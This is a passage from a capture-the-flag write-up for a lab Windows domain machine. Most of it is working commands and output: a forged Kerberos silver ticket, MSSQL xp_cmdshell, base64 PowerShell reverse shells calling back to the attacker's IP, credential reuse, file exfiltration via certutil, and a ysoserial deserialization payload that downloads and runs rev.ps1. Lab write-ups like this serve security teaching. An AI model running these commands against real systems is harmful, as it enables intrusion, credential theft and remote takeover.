[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncAsRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncASRepPart
[*] Saving ticket in Administrator.ccacheTesting to connect to the MsSQL service we fail, even though we exported the ticket..
➜ scrambled export KRB5CCNAME=Administrator.ccache
➜ scrambled impacket-mssqlclient dc1.scrm.local -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Encryption required, switching to TLS
[-] Kerberos SessionError: KRB_AP_ERR_BAD_INTEGRITY(Integrity check on decrypted field failed)I got stuck here for a while before I noticed that I forgot the SPN when creating my impersonated Administrator ticket. Reading the Microsoft docs the SPN format is MSSQLSvc/fqdn, so lets re-create the ticket.
➜ scrambled impacket-ticketer -nthash B999A16500B87D17EC7F2E2A68778F05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncTGSRepPart
[*] Saving ticket in Administrator.ccache
➜ scrambled export KRB5CCNAME=Administrator.ccache
➜ scrambled impacket-mssqlclient dc1.scrm.local -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL> It works! We’re connected to the SQL Service.
Step 5 - MSSQL
Enumerate the SQL Service:
SQL> SELECT name FROM master..sysdatabases;
name
--------------------------------------------------------------------------------------------
master
tempdb
model
msdb
ScrambleHR
SQL> use ScrambleHR
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: ScrambleHR
[*] INFO(DC1): Line 1: Changed database context to 'ScrambleHR'.
SQL> select table_name from information_schema.tables
table_name
--------------------------------------------------------------------------------------------
Employees
UserImport
Timesheets
SQL> select * from UserImport
LdapUser LdapPwd LdapDomain RefreshInterval IncludeGroups
-------------------------------------------------- -------------------------------------------------- -------------------------------------------------- --------------- -------------
MiscSvc ScrambledEggs9900 scrm.local 90 0 A new set of credentials: MiscSvc:ScrambledEggs9900
Lets step it up and see if we can enable and execute commands with xp_cmdshell:
SQL> enable_xp_cmdshell
SQL> whoami
scrm\sqlsvcInstead of uploading nc64.exe or similar we can just use revshells.com PowerShell #3 (Base64) to get a quick and simple shell.

SQL> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANwAiACwANAA0ADgAOAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=➜ scrambled nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.168] 64463
PS C:\Windows\system32> whoami
scrm\sqlsvc
PS C:\Users\sqlsvc\Desktop> ls
PS C:\Users> ls
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 05/11/2021 21:28 administrator
d----- 03/11/2021 19:31 miscsvc
d-r--- 26/01/2020 17:54 Public
d----- 01/06/2022 14:58 sqlsvc The user-flag is not possession of sqlsvc, so we probably need to pivot to miscsvc. I like to do this using below commands:
PS C:\Users> $user = 'scrm.local\miscsvc'
PS C:\Users> $pass = 'ScrambledEggs9900' | ConvertTo-SecureString -AsPlainText -Force
PS C:\Users> $creds = New-Object System.Management.Automation.PSCredential($user,$pass)
PS C:\Users> Invoke-Command -ComputerName localhost -Credential $creds -ScriptBlock { whoami }
scrm\miscsvcGenerate a new reverse shell from revshells.com and fire:
PS C:\Users> Invoke-Command -ComputerName localhost -Credential $creds -ScriptBlock { powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANwAiACwANAA0ADkAOQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA= }➜ scrambled nc -lvnp 4499
listening on [any] 4499 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.168] 61678
PS C:\Users\miscsvc\Documents> whoami
scrm\miscsvc
PS C:\Users\miscsvc\Desktop> ls
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 15/09/2022 08:26 34 user.txt
PS C:\Users\miscsvc\Desktop> type user.txt
5fcdc64885d9b2497f0bb5b97c4650f6ROOT
Step 1 - More enumeration
Looking on miscsvc’s privileges nothing stands out, however there are two custom groups added.
PS C:\Users\miscsvc> whoami /all
[... snip ...]
SCRM\ITShare Group S-1-5-21-2743207045-1827831105-2542523200-1609 Mandatory group, Enabled by default, Enabled group
SCRM\ITUsers Group S-1-5-21-2743207045-1827831105-2542523200-1610 Mandatory group, Enabled by default, Enabled groupThere is no PowerShell history:
PS C:\Users\miscsvc\AppData\Roaming\Microsoft\Windows> Get-Childitem -force
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 15/09/2018 08:19 CloudStore
d----- 15/09/2018 08:19 Network Shortcuts
d----- 15/09/2018 08:19 Printer Shortcuts
d-r--- 15/09/2018 08:19 Recent
d-r--- 15/09/2018 08:19 SendTo
d-r--- 15/09/2018 08:19 Start Menu
d----- 15/09/2018 08:19 TemplatesTesting to analyze the AD with SharpHound is unsuccessful, no output is provided:
PS C:\Temp> curl http://10.10.14.7/SharpHound.exe -o C:\Temp\SharpHound.exe
PS C:\Temp> curl http://10.10.14.7/SharpHound.ps1 -o C:\Temp\SharpHound.ps1
PS C:\Temp> ls
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 15/09/2022 14:15 1051648 SharpHound.exe
-a---- 15/09/2022 14:20 1318097 SharpHound.ps1
PS C:\Temp> SharpHound.exe -CollectionMethod All -Domain scrm.local -LDAPUser miscsvc -LDAPPass ScrambledEggs9900
PS C:\Temp> SharpHound.ps1 -CollectionMethod All -Domain scrm.local -LDAPUser miscsvc -LDAPPass ScrambledEggs9900We find the custom directory C:\Program Files\ScrambleCorp however it’s empty.. This took me way to long to find, but we’re now able to enumerate the SMB shares under C:\Shares.
PS C:\Shares\IT> ls
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 03/11/2021 21:06 Apps
d----- 03/11/2021 19:32 Logs
d----- 03/11/2021 19:32 Reports
PS C:\Shares\IT\Apps\Sales Order Client> ls
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 05/11/2021 20:52 86528 ScrambleClient.exe
-a---- 05/11/2021 20:52 19456 ScrambleLib.dll An interesting .exe and .dll in a path that’s unquoted, this is interesting! Download the two files to your attacking machine.
Being unable to download the files using nc.exe/nc64.exe I setup a local SMB Server out of desperation:
➜ share sudo adduser --system shareuser
Adding system user `shareuser' (UID 130) ...
Adding new user `shareuser' (UID 130) with group `nogroup' ...
Creating home directory `/home/shareuser' ...
➜ /srv sudo mkdir share
➜ /srv sudo chmod 777 share
➜ /srv sudo chown -R shareuser:nogroup /srv/share
➜ /srv sudo vim /etc/samba/smb.conf
➜ /srv cat /etc/samba/smb.conf
[global]
client min protocol = SMB2
client max protocol = SMB3
[share]
path = /srv/share
writable = yes
browsable = yes
public = yes
create mask = 0644
directory mask = 0755
force user = shareuser
➜ /srv service smbd restart
PS C:\Temp> echo "test" > \\10.10.14.7\share\testI doesn’t work either… being a bit annoyed I opted towards certutil.exe and encoded the files and copy-pasted them.
PS C:\Temp> certutil.exe -encode ScrambleClient.exe ScrambleClient.exe.b64
Input Length = 86528
Output Length = 119034
CertUtil: -encode command completed successfully.
PS C:\Temp> certutil.exe -encode ScrambleLib.dll ScrambleLib.dll.b64
Input Length = 19456
Output Length = 26812
CertUtil: -encode command completed successfully.
➜ scrambled vim ScrambleClient.exe.b64
➜ scrambled vim ScrambleLib.dll.b64
➜ scrambled cat ScrambleClient.exe.b64| base64 -d > ScrambleClient.exe
➜ scrambled cat ScrambleLib.dll.b64| base64 -d > ScrambleLib.dllStep 2 - Dig deep with ilspy / DNSpy
Analyze .exe and .dll with ilspy or DNSpy in a Windows VM. Briefly looking over the .dll we find static methods for serializing and deserializing data:

This is a big red flag for me as deserialization often leads to juicy input vulnerabilities. Reading about .NET BinaryFormatter vulnerabilities I find this post from Microsoft confirming my thoughts, and this medium post showing how we can exploit this.
But before we get into exploiting, we need to identify a method that handles input data. There is one method that looks promising - UploadOrder(SalesOrder). Analyzing UploadOrder(SalesOrder) we see that the input string is not parameterized or handled in anyway before it’s sent to the method SerializeToBase64().

We should be able to exploit this with ysoserial.exe to get code execution. Generate a reverses shell payload just like earlier and create the payload using ysoserial.exe:
PS C:\tools\ysoserial-1.35\Release> .\ysoserial.exe -f BinaryFormatter -o base64 -g WindowsIdentity -c "powershell -e JABjAGwAaQ..."
AAEAAAD/////AQ...Upload the new order:
➜ scrambled nc scramble.htb 4411
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;AAEAAAD/////AQ...
ERROR_GENERAL;Error deserializing sales order: Invalid length for a Base-64 char array or string.Not sure if this fails because we’re using the base64 payload, lets try a simpler payload.
PS C:\tools\ysoserial-1.35\Release> .\ysoserial.exe -f BinaryFormatter -o base64 -g WindowsIdentity -c "powershell iex(new-object system.net.webclient).downloadstring('http://10.10.14.7/rev.ps1')"
AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFsLldpbmRvd3NJZGVudGl0eQEAAAAkU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LmFjdG9yAQYCAAAAuApBQUVBQUFELy8vLy9BUUFBQUFBQUFBQU1BZ0FBQUY1TmFXTnliM052Wm5RdVVHOTNaWEpUYUdWc2JDNUZaR2wwYjNJc0lGWmxjbk5wYjI0OU15NHdMakF1TUN3Z1EzVnNkSFZ5WlQxdVpYVjBjbUZzTENCUWRXSnNhV05MWlhsVWIydGxiajB6TVdKbU16ZzFObUZrTXpZMFpUTTFCUUVBQUFCQ1RXbGpjbTl6YjJaMExsWnBjM1ZoYkZOMGRXUnBieTVVWlhoMExrWnZjbTFoZEhScGJtY3VWR1Y0ZEVadmNtMWhkSFJwYm1kU2RXNVFjbTl3WlhKMGFXVnpBUUFBQUE5R2IzSmxaM0p2ZFc1a1FuSjFjMmdCQWdBQUFBWURBQUFBaWdZOFAzaHRiQ0IyWlhKemFXOXVQU0l4TGpBaUlHVnVZMjlrYVc1blBTSjFkR1l0TVRZaVB6NE5DanhQWW1wbFkzUkVZWFJoVUhKdmRtbGtaWElnVFdWMGFHOWtUbUZ0WlQwaVUzUmhjblFpSUVselNXNXBkR2xoYkV4dllXUkZibUZpYkdWa1BTSkdZV3h6WlNJZ2VHMXNibk05SW1oMGRIQTZMeTl6WTJobGJXRnpMbTFwWTNKdmMyOW1kQzVqYjIwdmQybHVabmd2TWpBd05pOTRZVzFzTDNCeVpYTmxiblJoZEdsdmJpSWdlRzFzYm5NNmMyUTlJbU5zY2kxdVlXMWxjM0JoWTJVNlUzbHpkR1Z0TGtScFlXZHViM04wYVdOek8yRnpjMlZ0WW14NVBWTjVjM1JsYlNJZ2VHMXNibk02ZUQwaWFIUjBjRG92TDNOamFHVnRZWE11YldsamNtOXpiMlowTG1OdmJTOTNhVzVtZUM4eU1EQTJMM2hoYld3aVBnMEtJQ0E4VDJKcVpXTjBSR0YwWVZCeWIzWnBaR1Z5TGs5aWFtVmpkRWx1YzNSaGJtTmxQZzBLSUNBZ0lEeHpaRHBRY205alpYTnpQZzBLSUNBZ0lDQWdQSE5rT2xCeWIyTmxjM011VTNSaGNuUkpibVp2UGcwS0lDQWdJQ0FnSUNBOGMyUTZVSEp2WTJWemMxTjBZWEowU1c1bWJ5QkJjbWQxYldWdWRITTlJaTlqSUhCdmQyVnljMmhsYkd3Z2FXVjRLRzVsZHkxdlltcGxZM1FnYzNsemRHVnRMbTVsZEM1M1pXSmpiR2xsYm5RcExtUnZkMjVzYjJGa2MzUnlhVzVuS0Nkb2RIUndPaTh2TVRBdU1UQXVNVFF1Tnk5eVpYWXVjSE14SnlraUlGTjBZVzVrWVhKa1JYSnliM0pGYm1OdlpHbHVaejBpZTNnNlRuVnNiSDBpSUZOMFlXNWtZWEprVDNWMGNIVjBSVzVqYjJScGJtYzlJbnQ0T2s1MWJHeDlJaUJWYzJWeVRtRnRaVDBpSWlCUVlYTnpkMjl5WkQwaWUzZzZUblZzYkgwaUlFUnZiV0ZwYmowaUlpQk1iMkZrVlhObGNsQnliMlpwYkdVOUlrWmhiSE5sSWlCR2FXeGxUbUZ0WlQwaVkyMWtJaUF2UGcwS0lDQWdJQ0FnUEM5elpEcFFjbTlqWlhOekxsTjBZWEowU1c1bWJ6NE5DaUFnSUNBOEwzTmtPbEJ5YjJObGMzTStEUW9nSUR3dlQySnFaV04wUkdGMFlWQnliM1pwWkdWeUxrOWlhbVZqZEVsdWMzUmhibU5sUGcwS1BDOVBZbXBsWTNSRVlYUmhVSEp2ZG1sa1pYSStDdz09Cw==➜ scrambled nc scramble.htb 4411
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFsLldpbmRvd3NJZGVudGl0eQEAAAAkU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LmFjdG9yAQYCAAAAuApBQUVBQUFELy8vLy9BUUFBQUFBQUFBQU1BZ0FBQUY1TmFXTnliM052Wm5RdVVHOTNaWEpUYUdWc2JDNUZaR2wwYjNJc0lGWmxjbk5wYjI0OU15NHdMakF1TUN3Z1EzVnNkSFZ5WlQxdVpYVjBjbUZzTENCUWRXSnNhV05MWlhsVWIydGxiajB6TVdKbU16ZzFObUZrTXpZMFpUTTFCUUVBQUFCQ1RXbGpjbTl6YjJaMExsWnBjM1ZoYkZOMGRXUnBieTVVWlhoMExrWnZjbTFoZEhScGJtY3VWR1Y0ZEVadmNtMWhkSFJwYm1kU2RXNVFjbTl3WlhKMGFXVnpBUUFBQUE5R2IzSmxaM0p2ZFc1a1FuSjFjMmdCQWdBQUFBWURBQUFBaWdZOFAzaHRiQ0IyWlhKemFXOXVQU0l4TGpBaUlHVnVZMjlrYVc1blBTSjFkR1l0TVRZaVB6NE5DanhQWW1wbFkzUkVZWFJoVUhKdmRtbGtaWElnVFdWMGFHOWtUbUZ0WlQwaVUzUmhjblFpSUVselNXNXBkR2xoYkV4dllXUkZibUZpYkdWa1BTSkdZV3h6WlNJZ2VHMXNibk05SW1oMGRIQTZMeTl6WTJobGJXRnpMbTFwWTNKdmMyOW1kQzVqYjIwdmQybHVabmd2TWpBd05pOTRZVzFzTDNCeVpYTmxiblJoZEdsdmJpSWdlRzFzYm5NNmMyUTlJbU5zY2kxdVlXMWxjM0JoWTJVNlUzbHpkR1Z0TGtScFlXZHViM04wYVdOek8yRnpjMlZ0WW14NVBWTjVjM1JsYlNJZ2VHMXNibk02ZUQwaWFIUjBjRG92TDNOamFHVnRZWE11YldsamNtOXpiMlowTG1OdmJTOTNhVzVtZUM4eU1EQTJMM2hoYld3aVBnMEtJQ0E4VDJKcVpXTjBSR0YwWVZCeWIzWnBaR1Z5TGs5aWFtVmpkRWx1YzNSaGJtTmxQZzBLSUNBZ0lEeHpaRHBRY205alpYTnpQZzBLSUNBZ0lDQWdQSE5rT2xCeWIyTmxjM011VTNSaGNuUkpibVp2UGcwS0lDQWdJQ0FnSUNBOGMyUTZVSEp2WTJWemMxTjBZWEowU1c1bWJ5QkJjbWQxYldWdWRITTlJaTlqSUhCdmQyVnljMmhsYkd3Z2FXVjRLRzVsZHkxdlltcGxZM1FnYzNsemRHVnRMbTVsZEM1M1pXSmpiR2xsYm5RcExtUnZkMjVzYjJGa2MzUnlhVzVuS0Nkb2RIUndPaTh2TVRBdU1UQXVNVFF1Tnk5eVpYWXVjSE14SnlraUlGTjBZVzVrWVhKa1JYSnliM0pGYm1OdlpHbHVaejBpZTNnNlRuVnNiSDBpSUZOMFlXNWtZWEprVDNWMGNIVjBSVzVqYjJScGJtYzlJbnQ0T2s1MWJHeDlJaUJWYzJWeVRtRnRaVDBpSWlCUVlYTnpkMjl5WkQwaWUzZzZUblZzYkgwaUlFUnZiV0ZwYmowaUlpQk1iMkZrVlhObGNsQnliMlpwYkdVOUlrWmhiSE5sSWlCR2FXeGxUbUZ0WlQwaVkyMWtJaUF2UGcwS0lDQWdJQ0FnUEM5elpEcFFjbTlqWlhOekxsTjBZWEowU1c1bWJ6NE5DaUFnSUNBOEwzTmtPbEJ5YjJObGMzTStEUW9nSUR3dlQySnFaV04wUkdGMFlWQnliM1pwWkdWeUxrOWlhbVZqZEVsdWMzUmhibU5sUGcwS1BDOVBZbXBsWTNSRVlYUmhVSEp2ZG1sa1pYSStDdz09Cw==➜ scrambled python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.168 - - [16/Sep/2022 10:34:20] "GET /rev.ps1 HTTP/1.1" 200 -
➜ scrambled nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.168] 65465
PS C:\Windows\system32> whoami
nt authority\system
PS C:\Users\administrator\Desktop> type root.txt
c9ff456340b7b2feedb093d15b59f167Report root.txt and I’m rank 1 in Sweden!
